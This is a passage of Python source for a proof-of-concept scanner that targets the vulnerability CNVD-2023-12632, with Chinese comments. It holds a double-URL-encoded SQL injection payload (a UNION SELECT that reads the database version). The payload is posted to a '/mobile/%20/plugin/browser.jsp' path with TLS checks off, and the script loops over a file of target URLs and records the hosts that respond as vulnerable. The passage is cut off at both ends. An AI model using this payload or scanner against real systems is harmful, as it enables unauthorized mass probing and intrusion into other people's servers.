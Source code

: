 ```

    data = {
        "isDis": "1",
        "browserTypeId": "269",
        "keyword": "%25%36%31%25%32%37%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%33%31%25%32%63%25%32%37%25%32%37%25%32%62%25%32%38%25%35%33%25%34%35%25%34%63%25%34%35%25%34%33%25%35%34%25%32%30%25%34%30%25%34%30%25%35%36%25%34%35%25%35%32%25%35%33%25%34%39%25%34%66%25%34%65%25%32%39%25%32%62%25%32%37"
    }

    try:
        modified_url = url + '/mobile/%20/plugin/browser.jsp'
        response = requests.post(modified_url, data=data, headers=headers, verify=False, timeout=3)
        content = response.text

        if "show2" in content:
            result = colored(url + " 存在", 'red')

            if output:
                with open(output, 'a') as file:  # 以追加模式打开文件
                    file.write(url + '\n')

            print(result)  # 即时打印结果
        else:
            result = url + " 不存在"
            print(result)  # 即时打印结果

    except requests.exceptions.RequestException as e:
        pass  # 不进行任何操作，直接请求下一个URL


def check_urls_from_file(filename, output=None):
    with open(filename, 'r') as file:
        url_list = file.read().strip().split('\n')

    for url in url_list:
        check_url(url, output)

        # 捕获中断信号
        signal.signal(signal.SIGINT, handle_interrupt)


def handle_interrupt(signum, frame):
    global output_file

    # 在捕获中断时保存当前扫描结果，并关闭文件
    if output_file:
        output_file.close()

    print("\n扫描已中断并保存当前结果。")
    exit()


def main():
    global output_file

    parser = argparse.ArgumentParser(description='CNVD-2023-12632检测POC')
    parser.add_argument('-u', '--url', help='检测单个URL')
    parser.add_argument('-r', '--file', help='从文本中批量检测URL')
    parser.add_argument('-o', '--output', help='将检测到的输出到文本中')
    args = parser.parse_args()

    if args.output:
```